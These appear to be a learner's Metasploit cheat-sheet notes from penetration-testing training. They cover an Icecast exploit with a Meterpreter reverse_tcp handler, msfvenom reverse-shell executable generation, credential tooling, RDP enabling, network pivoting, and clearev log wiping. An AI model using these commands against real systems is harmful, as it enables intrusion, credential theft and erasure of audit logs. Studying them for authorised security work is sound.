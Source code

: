 ## Metasploit
?  help alias

## Initialize database

msfdb init

-q  // **no banner**

db_status   // **db status**

connect  // **quick check**

set 

setg  

get 

unset 


spool   // output to a file


save    // save settings



-----------------

## Modules



exploit  //  payload // encoder // NOP // auxiliary


encoder - modify appearance of exploit

NOP - buffer overflow


db_nmap  - **feeds directly into db**

nmap  - just nmap

good to run after db_nmap:
hosts
services
vulns


## example with icecast


```use exploit/windows/http/icecast_header


search multi/handler

use <@#> exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

run -j     //  (-j run as job) 
```




`sessions -i <SESSION_NUMBER>`


after connecting, run ps to view processes

we see spoolsv.exe

`migrate <pid>`


doesn't work 


getuid

sysinfo

load kiwi

get privs

upload 

run 

ipconfig

## POST 

`post/windows/gather/checkvm`   // checks if we are in a VM

`run post/multi/recon/local_exploit_suggester`

`run post/windows/manage/enable_rdp`  // need admin 

`shell`    // spawn a normal system shell


CISCO  

run autoroute -h


run autoroute -s 172.18.1.0 -n 255.255.255.0


search server/socks5


auxiliary/server/socks5






# msfvenom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


**staged**- good for ids detection, first stage just connects, second stage downloads code


**stageless** - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = **stageless**

backslash = **staged**



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```


# meterpreter

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

to upgrade regular shell to meterpreter shell use

post/multi/manage/shell_to_meterpreter


`clearev`	 will clear the Application, System, and Security logs on a Windows system.











